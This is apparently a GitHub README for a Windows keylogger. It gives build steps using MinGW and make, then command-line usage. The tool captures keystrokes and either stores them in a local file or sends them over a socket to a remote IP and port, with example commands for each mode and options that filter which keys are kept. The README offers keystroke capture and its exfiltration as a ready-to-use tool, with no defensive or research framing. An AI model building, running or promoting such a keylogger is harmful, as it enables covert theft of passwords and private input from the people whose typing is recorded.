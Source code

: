 BUILD AND RUN FOR WINDOWS ONLY

# Installation

run command make

# Dependencies

[MinGW](http://www.mingw.org) for g++ and command make

# Usage

This program propose 2 types of keylogger

##REQUIERED Parameters : Please, choose one of them

        -l | --local : local keylogger, store data into file on this computer, require 1 argument (destination path)
                Example : ./bin/main.exe -l D:\file.txt

        -r | --remote : remote keylogger, send data via socket, require 2 arguments (ip, port)
                Example : ./bin/main.exe -r 192.168.1.16 7777

##OPTIONAL Options

        -c | --no_click : don't store click keys (based on ascii)
                Example : ./bin/main.exe ... -c

        -a | --alphabet_only : Store alphabet only, A-z (based on ascii)
                Example : ./bin/main.exe ... -a

        -C | --store_character : Default store is int value, use this option if you want to store with character
                Example : ./bin/main.exe ... -C

        -h | --help : print this help
                Example : ./bin/main.exe -h

